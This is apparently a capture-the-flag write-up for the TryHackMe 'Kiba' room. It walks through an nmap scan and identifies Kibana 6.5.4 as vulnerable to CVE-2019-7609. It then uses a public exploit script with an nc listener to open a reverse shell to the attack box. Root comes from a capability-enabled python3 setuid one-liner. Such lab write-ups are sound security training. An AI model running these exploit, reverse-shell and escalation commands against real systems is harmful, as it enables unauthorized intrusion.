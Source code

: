 # THM: Kiba

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="/images/write_ups/try_hack_me/kiba/kiba.png" alt="Kiba" width="90"/> |
| Room | Kiba |
| URL | https://tryhackme.com/room/kiba |
| Difficulty | Easy |

## Concepts/Tools Used

- getcap

## Room Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-05 22:05 BST
Nmap scan report for target.thm (10.10.223.67)
Host is up (0.045s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:55 GMT
|     Connection: close
|     Kibana server is not ready yet
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 503 Service Unavailable
|     retry-after: 30
|     content-type: text/html; charset=utf-8
|     cache-control: no-cache
|     content-length: 30
|     Date: Sat, 05 Jul 2025 21:05:54 GMT
|     Connection: close
|_    Kibana server is not ready yet
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=7/5%Time=686993B2%P=x86_64-pc-linux-gnu%r(Get
SF:Request,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-after:\
SF:x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-control:
SF:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20Jul\x20
SF:2025\x2021:05:54\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x20server
SF:\x20is\x20not\x20ready\x20yet")%r(HTTPOptions,E0,"HTTP/1\.1\x20503\x20S
SF:ervice\x20Unavailable\r\nretry-after:\x2030\r\ncontent-type:\x20text/ht
SF:ml;\x20charset=utf-8\r\ncache-control:\x20no-cache\r\ncontent-length:\x
SF:2030\r\nDate:\x20Sat,\x2005\x20Jul\x202025\x2021:05:54\x20GMT\r\nConnec
SF:tion:\x20close\r\n\r\nKibana\x20server\x20is\x20not\x20ready\x20yet")%r
SF:(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(RPCChec
SF:k,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSVersionBindReqT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(DNSStatusRequestT
SF:CP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Help,1C,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSessionReq,1C,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCookie,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1C,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Fou
SF:rOhFourRequest,E0,"HTTP/1\.1\x20503\x20Service\x20Unavailable\r\nretry-
SF:after:\x2030\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncache-c
SF:ontrol:\x20no-cache\r\ncontent-length:\x2030\r\nDate:\x20Sat,\x2005\x20
SF:Jul\x202025\x2021:05:55\x20GMT\r\nConnection:\x20close\r\n\r\nKibana\x2
SF:0server\x20is\x20not\x20ready\x20yet")%r(LPDString,1C,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\n\r\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\n\r\n")%r(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\
SF:r\n")%r(LANDesk-RC,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(T
SF:erminalServer,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
MAC Address: 02:C8:58:81:D8:AD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.58 seconds
```

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

I type that question into google and it shows a result that talks about Prototype pollution.

I check the site running at http://target.thm. It mentions that linux capabilities are very interesting. I am not familiar with those but I do take a note of it. I don't see much else and so I check http://target.thm:5601 to see what is on that port before I try running directory enumeration on port 80.

## What is the version of visualization dashboard installed in the server?

The site on port 5601 has Kibana running. I click the link that says "explore my own" data. The first thing I do is try to find a version number for Kibana. I clicked the management link on the left side panel. It says version 6.5.4.

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I run the following to command to see if searchsploit has anything:

```bash
$ searchsploit kibana 6.5.4
```

I get no results. I google "kibana 6.5.4 cve" and I find CVE-2019-7609 which is a arbitrary code execution for this version of Kibana.

I do another google search for "cve-2019-7609 poc". I get a hit with this one. I find a [github repository](https://github.com/LandGrey/CVE-2019-7609) with a python script. I download the script to my attack box with the following:

```bash
$ wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/refs/heads/master/CVE-2019-7609-kibana-rce.py
```

## Compromise the machine and locate user.txt

The script wants a url to the kibana instance, it also wants the reverse shell url and port number. There is one more argument that will call the reverse shell but if that argument is not provided the script just verifies that the Kibana instance is vulnerable.

I make some changes to the script so that it will work with python3. They are the following:

- Line 23: Add `.decode('utf-8')` after r.content
- Line 57: Add `.decode('utf-8')` after r.content

After the changes, I check to make sure the Kibana instance is vulnerable with the following command:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://target.thm:5601
[+] http://target.thm:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
```

I open a new terminal on my attack box and run the following to start a reverse shell listener:

```bash
$ nc -lvnp 4444
```

Then I run the following:

```bash
$ python3 CVE-2019-7609-kibana-rce.py -u http://target.thm:5601 -host <attack_box_ip> -port 4444 --shell
[+] http://target.thm:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: <attack_box_ip>:4444
```

I have a shell. I'm in!

I follow the [steps here](/README.md#stable-shell) to get a stable shell.

I run the following to see what users have a home directory:

```bash
$ ls -lh /home
kiba
```

I then cat the file in that directory:

```bash
$ cat /home/kiba/user.txt
REDACTED
```

## How would you recursively list all of these capabilities?

Since I am not familiar with linux capabilities, I did a google search and found the `getcap` command. I looked at the documentation for this command by running:

```bash
$ man getcap
```

As I read the documentation, I found that the -r flag does a recursive search. So the command is the following:

```bash
$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

I added the `2>/dev/null` because I only want successful values. The entry it returned is very interesting.

## Escalate privileges and obtain root.txt

All I had to do was create a shell as root using the python3 at the location above. Here is the command I ran:

```bash
$ /home/kiba/.hackmeplease/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
